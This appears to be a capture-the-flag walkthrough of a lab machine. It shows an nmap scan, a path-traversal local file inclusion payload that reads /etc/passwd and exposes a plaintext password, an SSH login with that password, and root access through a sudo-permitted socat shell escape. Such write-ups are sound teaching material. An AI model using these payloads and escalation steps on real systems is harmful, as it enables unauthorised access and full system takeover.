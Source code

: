 # Local File Inclusion (LFI)
[LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

# nmap
```console
bibo318@parrot:~$ sudo python3 pymap.py -t 10.10.14.166
created by gu2rks/kurohat 
find me here https://github.com/gu2rks

port scanning...
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 09:05 EDT
Nmap scan report for 10.10.14.166
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.17 ms 10.8.0.1
2   43.17 ms 10.10.14.166

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

# foothold
- hacking http://10.10.14.166/article?name=hacking
- LFI http://10.10.14.166/article?name=lfiattack
- Remote File Inclusion (RFI) http://10.10.14.166/article?name=rfiattack

seem like LFI is here ```http://10.10.14.166/article?name=<filename>``` let try out by request for `/etc/passwd`. 


```http://10.10.14.166/article?name=../../../../../../../etc/passwd```. BINGO !!
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```
if you look carefully you will see a user cerdential + password. now ssh it to the machine
```console
bibo318@parrot:~$ ssh falconfeast@10.10.14.166
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
```

# root
start by checking sudo command that falconfeast allow to run as root
```console
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

## socat
- [socat](https://linux.die.net/man/1/socat)
- [more about socat](https://medium.com/@copyconstruct/socat-29453e9fc8a6)
- [GTFObin](https://gtfobins.github.io/gtfobins/socat/)
```console
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cat /root/root.txt
```